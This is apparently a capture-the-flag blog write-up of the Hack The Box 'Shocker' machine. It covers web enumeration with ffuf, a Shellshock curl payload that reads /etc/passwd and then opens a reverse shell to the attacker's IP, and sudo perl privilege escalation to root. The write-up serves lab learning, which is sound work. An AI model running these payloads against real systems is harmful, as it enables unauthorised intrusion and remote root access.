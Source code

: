 ```yaml
---
title: "Shocker Write-Up"
date: 2025-08-06T19:15:54-05:00
draft: false
author: Jarpiano
tags:
    - Writeup
image: /images/shocker-banner.png
description:
toc:
center: true
---
```

# Shocker (Easy) Box
The Shocker box is an easy machine on HTB. It explores web enumeration and the ShellShock exploit.

## Initial Foothold

Let's do an NMAP scan of the server:

```bash
nmap <TARGET-IP>
```

Port 80 and Port 2222 seem to be open. A service scan on both port shows us that port 2222 is simply running an SSH service. Since we know that we're dealing with the ShellShock exploit, we'll set our sights on the webserver on port 80.

We can find a bunch of information on the service online. I like this [PDF](https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?ref=benheater.com) in particular. What we want to find is a `cgi` or `Common Gateway Interface` script. Typically these are found in the `/cgi-bin/` directory. If we change our `URL` to:

```url
http://<TARGET-IP>/cgi-bin
```

We should get a forbidden error.

<img src="/images/shocker-image1.png" width="900" alt="Preview Image" />
<br>
<br>

Our script is likely in this directory. The next step takes a while. Now we need to find the actual script. I spent a great deal of time working with several wordlists here. There were several online `cgi` wordlists, but honestly I can't recall any of them working in this case. We should stick to more general enumeration.

We could use `dirbuster`, `gobuster`, or any other enumeration tool. The best in speed and simplicity, in my opinion, is `ffuf`. For wordlists, I suggest using the `directory-2.3-medium` file from `SecLists` or `dirb's big.txt` file. For our extensions, we can use `SecList`'s `web-extensions.txt` file (might have `common` in the name), but `dirb` has it's own smaller version. Any combination of these wordlists work together.

Here is an example command that we can use. But before that, let's get our extensions with:

```bash
ext=$(cat /usr/share/dirb/wordlists/extensions_common.txt)
```

Now we can try:

```bash
ffuf -w /usr/share/dirb/wordlists/big.txt:FUZZ -u http://<MY-IP>/cgi-bin/FUZZ -e $ext
```

This will take some time, but eventually we should get the `/cgi-bin/user.sh`. This was the only page in the `cgi-bin` directory that had a status 200. Going to the URL on a browser seems to give us some output as well.

I attempted to use a Metasploit payload here, but didn't get it to work. I was able to narrow down the issue here. The payload likely edited the User agent and only produced results that were status 500s. Fortunately, I found this [script](https://github.com/Jsmoreira02/CVE-2014-6271) online that had some manual test cases. This one in particular worked:

```bash
sudo curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" <WEBSERVER-IP>
```

By replacing the `/bin/cat /etc/passwd` payload with a reverse shell payload from [RevShells](https://www.revshells.com/) , we can connect via reverse shell as the shelly user. Just set up the listener:

```bash
nc -lvnp 1234
```

Then we can launch a shell with:

```bash
sudo curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/bash -c 'sh -i >& /dev/tcp/<MY-IP>/1234 0>&1';" http://<TARGET-IP>/cgi-bin/user.sh
```

<img src="/images/shocker-image2.png" width="900" alt="Preview Image" />
<br>
<br>

## Privilege Escalation

Once we're on here, I tried a bunch of escalation vectors for the vulnerable Sudo version. Turns out, when you execute:

```bash
sudo -l
```

The `/usr/bin/perl` command is available to run as root. On GTFOBins, we can find a useful escalation line. Let's adjust it to our purposes:

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

If we type `whoami`, we can see that we are `root`. We can now access both the `root.txt` and `user.txt` files.

**Fin.**